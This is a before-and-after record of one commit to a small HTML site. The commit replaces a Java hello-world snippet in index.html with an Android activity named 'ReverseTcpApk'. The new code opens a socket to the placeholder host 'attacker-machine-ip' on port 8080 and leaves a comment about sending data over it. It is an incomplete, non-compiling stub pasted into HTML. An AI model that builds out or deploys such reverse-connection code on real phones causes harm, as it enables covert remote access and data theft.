

Before and after one commit to kevin-langat/shared-project, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Insert Android reverse TCP connection example
Added Android reverse TCP connection code to index.html.

```diff
--- a/index.html
+++ b/index.html
@@ -7,10 +7,54 @@
   </head>
   <body>
     <h2>hello</h2>
-public class HelloWorld {
-    public static void main(String[] args) {
-        System.out.println("Hello from Java on Kali Linux!");
-    }
+import android.os.Bundle;
+
+import android.util.Log;
+
+
+
+public class ReverseTcpApk extends AppCompatActivity {
+
+private static final String TAG = "ReverseTcpApk";
+
+
+
+@Override
+
+protected void onCreate(Bundle savedInstanceState) {
+
+super.onCreate(savedInstanceState);
+
+setContentView(R.layout.activity_main);
+
+
+
+// Establish reverse TCP connection
+
+new Thread(new Runnable() {
+
+public void run() {
+
+try {
+
+Socket socket = new Socket("attacker-machine-ip", 8080);
+
+Log.d(TAG, "Connected to attacker machine!");
+
+// Send data over the socket...
+
+} catch (IOException e) {
+
+Log.e(TAG, "Error establishing connection: " + e.getMessage());
+
+}
+
+}
+
+}).start();
+
+}
+
 }
 
   </body>
```
